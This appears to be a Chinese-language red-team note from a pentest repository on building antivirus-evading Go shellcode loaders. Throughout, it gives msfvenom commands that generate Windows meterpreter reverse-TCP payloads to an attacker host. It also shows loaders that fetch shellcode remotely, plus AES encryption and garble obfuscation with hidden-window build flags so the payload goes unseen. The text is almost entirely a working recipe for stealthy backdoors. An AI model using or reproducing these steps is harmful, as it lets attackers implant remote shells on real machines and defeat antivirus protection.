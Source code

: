  #### 直接编译
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f c
	代码转换成0x格式，粘贴到go.txt中保存为go格式
![image](/assets/Pentest_Note/master/img/97.png)
	
	安装golang环境在shellcode目录执行
	>go build生成exe
 #### 编码编译
  	https://github.com/biggerduck/RedTeamNotes/blob/main/%E5%88%A9%E7%94%A8go%E5%8A%A0%E8%BD%BDshellcode%E5%85%8D%E6%9D%80.pdf
 #### 加载器
 ##### go-shellcode
	https://github.com/brimstone/go-shellcode
	进入cmd/sc目录编译sc.exe
	>go build
![image](/assets/Pentest_Note/master/img/98.png)

	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f hex -o shell.txt 
	加载器加载shellcode
	>sc.exe shellcode
![image](/assets/Pentest_Note/master/img/99.png)
 ##### Gsl
	https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/gsl-sc-loader.zip
	>gsl -s SHELLCODE -hex msf生成hex格式
	>gsl -f shell.raw本地加载raw格式文件
	>gsl -f shell.hex -hex 本地加载hex格式文件
	>gsl -u http://192.168.0.108/1.raw 远程加载
	>gsl -u http://192.168.0.108/1.hex
 ##### go-shellcode-loader
  	https://github.com/HZzz2/go-shellcode-loader
	>git clone https://github.com/HZzz2/go-shellcode-loader.git
	>cd go-shellcode-loader
	//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
	>go install mvdan.cc/garble@latest   
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw
	>base64 -w 0 -i rev.raw > rev.bs64
	>cat rev.bs64
	复制到aes-sc.go中的51行替换payload
	运行aes-sc.go生成AES加密后的值
	>go run aes-sc.go
	复制输出的值到go-sc.go中的73行替换payload
	编译成exe可执行程序
	>garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go
	参数解释：
	garble(混淆库)：
	     -tiny                    删除额外信息
	     -literals               混淆文字
	     -seed=random   base64编码的随机种子 
	go：
	    -w                        去掉调试信息，不能gdb调试了
	    -s                         去掉符号表
	    -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）
	    -race                    使数据允许竞争检测
	编译后得到go-sc.exe